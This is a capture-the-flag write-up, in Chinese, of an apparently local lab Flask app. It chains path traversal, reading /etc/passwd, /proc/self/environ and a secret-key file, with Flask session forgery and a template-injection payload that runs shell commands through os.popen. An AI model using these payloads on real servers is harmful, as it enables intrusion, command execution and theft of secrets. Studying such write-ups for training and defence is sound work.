







# any file read Q3

## Solution

進入網頁 `http://localhost:5000/` 粗略試用

發現有以下三個頁面，且透過瀏覽器看出是使用 Python 2.7 撰寫的

- http://localhost:5000/
- http://localhost:5000/n1page
- http://localhost:5000/article?name=article

使用傳統藝能，配合 ZAP (`http://localhost:8080/zap/`) 做一次 Automated Scan



整理後主要可以利用的弱點是 Path Traversal

利用網址: `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd` 可以直接 access `/etc/passwd`



基本上這類 Path Traversal 的漏洞，可以任意讀取到伺服器上的任何檔案，我想要嘗試閱讀 Flag 檔案

隨意測試不同常見位置

- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/flag`



都遇到 no permission error, 但是明明可以 access `/etc/passwd` 這種隱私文件。

因此猜測是 python web service 內有使用某種機制阻止了這種操作。

想嘗試看看能不能讀到 python code 本身，因此透過 access `proc/self/environ` 來獲取當前 process 的環境變數，看看有沒有什麼有用的信息。

go to `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/proc/self/environ`



看到 PWD= `/home/sssssserver`

因此嘗試去該目錄讀取常見的 python code file name。

- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/main.py`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/server.py`

在 `server.py` 中成功取得 python server source code as below.

```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None:
        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
    template = None
    if session['n1code'] is not None:
        template = '''
        <h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div>
        ''' % session['n1code']
        session['n1code'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

透過程式碼分析可以發現 Flask 模板的 template 漏洞 (ctf flask 模板注入)，概念是程式碼直接把 session['n1code'] 的值直接塞到 render_template_string() 函數中，而 session['n1code'] 的值是從 user input 取得的。因此可以透過精心設計的 user input 來注入任意的 Python code。

當然，要做到這件事需要先透過 private key 偽造 Flask Session，因為直接輸入的 input 會把危險字符 replace 掉。

以下會置換輸入文字的危險符號，並且當 session 為空時完成更新。

```python
if n1code is not None:
    n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
if "n1code" not in session or session['n1code'] is None:
    session['n1code'] = n1code
```

換而言之，自製非空 session 後，可以直接作為輸入傳入 template 中。

基於程式碼得知，可以在 `key.py` 中找到偽造 session 的 private key。

goto `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/key.py`

取得 key 以後使用網路上的腳本 `flask-session-cookie-manager` 來偽造 session。

```bash
git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager
python -m venv venv
source venv/bin/activate
python -m pip install .
```

先嘗試偽造不具備攻擊性的 session： `python flask_session_cookie_manager3.py encode -s='private_key_above' -t="{'n1code': 'TEST_FLAG'}"`

得到 session: `XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

透過 ZAP POST 到 n1code API (session 填入上面腳本產生的偽造 session)

- headers:
  ```
  POST http://web-service:5000/n1page HTTP/1.1
  host: web-service:5000
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Connection: keep-alive
  Referer: http://web-service:5000/n1page
  Content-Type: application/x-www-form-urlencoded
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  content-length: 13
  Cookie: session=XXXXXXXXXX
  ```
- body:
  ```
  n1code=inbody
  ```

得到以下錯誤結果，預期應該顯示 TEST_FLAG 但顯示 inbody



錯誤原因是 ZAP 要關閉 accept cookie 功能才吃的到自訂 cookie，重新 post 一次，成功顯示 TEST_FLAG。



確認注入流程後按照網路教學，撰寫要注入的 Flask Template Code。

```python
__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()
```

概念就是調用 OS 的 popen 方法，執行 cat flag.py 命令，並將結果回傳。

最終使用命令偽造 session : `python ./flask_session_cookie_manager3.py encode -s "private_key_above" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

取得 session 後放入 ZAP 中 POST 成功取得 Flag。


